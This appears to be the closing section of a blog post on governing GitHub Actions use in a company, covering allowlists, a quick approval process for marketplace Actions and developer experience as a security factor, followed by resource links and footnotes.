[Charles de Gaulle](https://en.wikipedia.org/wiki/Charles_de_Gaulle) (former President of France) famously quipped about the governability of France - "How can you govern a country which has 246 varieties of cheese?"  There are over 19,000 open-source Actions in the [marketplace](https://github.com/marketplace?type=actions) and 100 million developers on GitHub, each with their own opinion on ~~cheese~~ developer tools and workflows.  How do you get any handle on what’s going on in your own company?


First, there’s an allowlist.  The screenshot is what this looks like at the enterprise level, with “child” levels like an organization or repository allowed to be stricter but not more lax.  This list is the cornerstone of trying to get a handle on what’s being used - regardless of where the job is run (self-hosted or SaaS), this list is checked first.

A somewhat common pattern is to bring Actions inside an internal account after approvals and such. It’s a more heavyweight process compared to scanning and pinning to a SHA, but it’s well supported.  A key risk here is when bringing things internal, it never gets updated again - even for security updates.

{: .w-50 .right}
_Chuck E Cheese is the only place where lots of tickets is a good thing_

We’ve spent most of the past 45 minutes or so talking nuts and bolts about our threat model and figuring out ways to make the list of scary things smaller while still giving our developers tools to move faster and better.  Let’s talk about the biggest and scariest thing on that list - our people.

Specifically, that clever engineer that _never_ disabled TLS certificate verification or ran unmanaged servers under her desk to get sh!t done on time.  That’s an unappreciated part of our threat model - we spend millions upon millions of dollars as an industry locking down endpoints and inspecting everyone’s traffic, but just allowing folks to do their job quickly and effectively reduces temptations to go out of bounds.

Thing is, if it takes ~~millenia~~ months to review and approve something, the chances of someone asking for permission drops quite a lot.  Ironically, it’s the most “mature” organizations that have the reputation for this problem.  This doesn’t have to be the case - leveraging expertise and process _can_ move astonishingly quickly.  Here’s an example of a reasonable process to review requests for a marketplace Action:



- Infrastructure - Can we run this? Do we have the dependencies, etc.
- Appsec/infosec - Is this safe? (fork/scan, code review, what you need to look for)
- Legal - No non-commercial-only or “do no evil” licensing, etc.

<div style="text-align:center"><p style="font-size: 20px"><b>
💸 Most critical, an SLA of less than 1 week from request to decision.  Preferably faster - it’s holding up the business. 💸
</b></p></div>


I‘m thrilled developer experience is getting so much time and attention recently for SO MANY reasons.  Being a developer where I can’t work without fighting about `IDE, dependency, platform` sucks.  Getting constant interruptions also sucks.

If every company is a software company, developer talent is always needed and expensive.  This also extends to your operations and security folks.  Having 10,000 alerts on CI builds sucks just as much as having 10,000 alerts on VM images as having 10,000 requests in queue for `thing`.  The skills these folks bring are equally in demand.

You can leverage open-source package ecosystems safely - GitHub Actions isn’t a terrifying exception.  It can be safer and faster and reduce the overhead on your security teams as compared to existing CI systems, especially when implemented deliberately.  Hopefully you’ve got the tools to do that now. 🎀

## Resources

Lastly, I wanted to leave you with some resources to learn more about threat modeling, GitHub Actions, and how to leave feedback.

- [Threat Modeling Manifesto](https://www.threatmodelingmanifesto.org/)
- [GitHub Community Feedback](https://github.community)
- [GitHub's Public Roadmap](https://github.com/orgs/github/projects/4247/views/1)
- [GitHub Actions Security Guides](https://docs.github.com/en/actions/security-guides)
- [GitHub's Security Bounty Program](https://bounty.github.com/)

Learning GitHub resources

- 🦆 A 3-minute video on [What is GitHub?](https://www.youtube.com/watch?v=pBy1zgt0XPc) (YouTube)
- [Hello World](https://docs.github.com/en/get-started/quickstart/hello-world)
- [Skills](https://skills.github.com/), the free interactive training for lots of things GitHub
- [Git and GitHub Learning](https://docs.github.com/en/get-started/quickstart/git-and-github-learning-resources)

## Footnotes

[^1]: [/r/sysadmin](https://www.reddit.com/r/sysadmin/comments/4l7kjd/found_a_text_file_at_work_titled_why_should_i/) post that started that
[^2]: The kinda famous 2011 [Andreessen Horowitz piece](https://a16z.com/2011/08/20/why-software-is-eating-the-world/) that spawned this saying
[^3]: An exception worth looking into further is using a compiler like [vercel/ncc](https://github.com/vercel/ncc) instead.  It'll compile it with dependencies rather than needing you to strictly bundle them.  It seems like the same benefits of being able to have insight into all dependencies is still there, but I'm not at all an expert in JavaScript to tell you.
[^4]: Weird limitation - no `imagepullsecrets`, so no native support for private registries.  There may be some workarounds using environment variables though - I haven't tested.
[^5]: My fave explanation of what a container really is is from Julia Evans here [What even is a container: namespaces and cgroups](https://jvns.ca/blog/2016/10/10/what-even-is-a-container/).
[^6]: [Kubernetes for enterprise CI](https://some-natalie.dev/blog/kubernetes-for-enterprise-ci/) and [Securing Self-Hosted Actions in Kubernetes](https://some-natalie.dev/blog/securing-ghactions-with-arc/)
[^7]: For the record, it isn't magic.  It takes tons of skilled engineering to make a secure, scalable, highly-available SaaS.
[^8]: I talked about it when removing big files [here](https://some-natalie.dev/blog/omit-PRs-clean-BFG/#are-those-files-truly-gone), GitHub’s documentation talks through the limits of rewriting history more thoroughly [here](https://docs.github.com/en/authentication/keeping-your-account-and-data-secure/removing-sensitive-data-from-a-repository).  tl;dr - all secrets that enter a remote repo are compromised, **no exceptions**.
[^9]: Maybe gossipy footnote, but apparently there was a **6 week** deployment freeze to clean up a ton of secrets in repositories as a cleanup from the CircleCI breach at a very popular website not too long ago - [source](https://newsletter.pragmaticengineer.com/i/123763637/a-month-code-freeze-at-stackoverflow)
[^10]: Way more to learn about encryption, encoding, and hashing from [Auth0's blog](https://auth0.com/blog/encoding-encryption-hashing/).  Well worth a read.
[^11]: The blog post that made OIDC “click” for me - [Tokens, please](https://www.toddtee.sh/posts/github-actions-oidc/)
